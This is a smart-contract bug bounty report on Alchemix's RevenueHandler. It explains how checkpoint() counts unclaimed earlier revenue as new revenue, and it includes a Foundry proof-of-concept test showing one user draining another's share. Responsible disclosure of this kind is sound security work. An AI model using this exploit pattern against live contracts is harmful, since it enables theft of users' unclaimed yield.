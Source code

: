 
# `RevenueHandler` counts unclaimed tokens as new revenue

Submitted on Sun May 12 2024 05:02:22 GMT-0400 (Atlantic Standard Time) by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31077

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
The `RevenueHandler` contract has a `checkpoint()` function that records revenue amounts for each token in each epoch. There is a mistake in the logic of non-alchemic tokens, because it assumes the entire token balance is new revenue for the epoch. This is wrong because the token balance includes pending revenue from previous epochs that have not yet been claimed. This allows users to claim more tokens than they should, which steals tokens from other users who try to claim later.

## Vulnerability Details
The `checkpoint()` function in `RevenueHandler` contains the following code snippet:


```solidity
uint256 thisBalance = IERC20(token).balanceOf(address(this));

// If poolAdapter is set, the revenue token is an alchemic-token
if (tokenConfig.poolAdapter != address(0)) {
    // Treasury only receives revenue if the token is an alchemic-token
    treasuryAmt = (thisBalance * treasuryPct) / BPS;
    IERC20(token).safeTransfer(treasury, treasuryAmt);

    // Only melt if there is an alchemic-token to melt to
    amountReceived = _melt(token);

    // Update amount of alchemic-token revenue received for this epoch
    epochRevenues[currentEpoch][tokenConfig.debtToken] += amountReceived;
} else {
    // If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
    amountReceived = thisBalance;

    // Update amount of non-alchemic-token revenue received for this epoch
    epochRevenues[currentEpoch][token] += amountReceived;
}
```

Notice that in the `else` case, the `epochRevenues[currentEpoch][token]` amount is incremented by the current token balance. As mentioned above, this is incorrect because the token balance also contains unclaimed revenue from previous epochs. Due to this mistake, the revenues past the first epoch will be inflated, which leads to an inflated `totalClaimable` value in the `_claimable()` function:

```solidity
uint256 epochTotalVeSupply = IVotingEscrow(veALCX).totalSupplyAtT(epochTimestamp);
if (epochTotalVeSupply == 0) continue;
uint256 epochRevenue = epochRevenues[epochTimestamp][token];
uint256 epochUserVeBalance = IVotingEscrow(veALCX).balanceOfTokenAt(tokenId, epochTimestamp);
totalClaimable += (epochRevenue * epochUserVeBalance) / epochTotalVeSupply;
```

## Impact Details
Once an epoch has an inflated revenue, a malicious user can call `claim()` to take a large amount of tokens they do not deserve. This is a theft of other users' unclaimed yield. Since the malicious user would receive the tokens, no tokens would be left in the `RevenueHandler` for the other users to claim. See the PoC for an example.

## References
See the PoC below.
        
## Proof of concept
## Proof of Concept

I have created the following test case that can be added to `RevenueHandler.t.sol`:


```solidity
function testNonAlchemicRevenueAccountingBug() external {
    uint256 revAmt = 1000e18;
    uint256 tokenId1 = _initializeVeALCXPosition(10e18);
    uint256 tokenId2 = _setupClaimableNonAlchemicRevenue(revAmt, bal);

    _jumpOneEpoch();
    revenueHandler.checkpoint();

    console.log("claimable 1 before:", revenueHandler.claimable(tokenId1, bal));
    console.log("claimable 2 before:", revenueHandler.claimable(tokenId2, bal));
    console.log("revenueBalance before:", IERC20(bal).balanceOf(address(revenueHandler)));

    revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), address(this));

    console.log("claimable 1 after:", revenueHandler.claimable(tokenId1, bal));
    console.log("claimable 2 after:", revenueHandler.claimable(tokenId2, bal));
    console.log("revenueBalance after:", IERC20(bal).balanceOf(address(revenueHandler)));

    uint256 claimable2 = revenueHandler.claimable(tokenId2, bal);
    vm.expectRevert("Not enough revenue to claim");
    revenueHandler.claim(tokenId2, bal, address(0),claimable2, address(this));
}
```

Running the command `forge test -vvv --match-test testNonAlchemicRevenueAccountingBug --rpc-url $ETH_RPC_URL` gives the following result:

```
[PASS] testNonAlchemicRevenueAccountingBug() (gas: 2569923)
Logs:
  claimable 1 before: 1000000000000000000000
  claimable 2 before: 1000000000000000000000
  revenueBalance before: 1000000000000000000000
  claimable 1 after: 0
  claimable 2 after: 1000000000000000000000
  revenueBalance after: 0
```

This shows that the first user can claim 100% of the tokens, preventing the second user from claiming anything.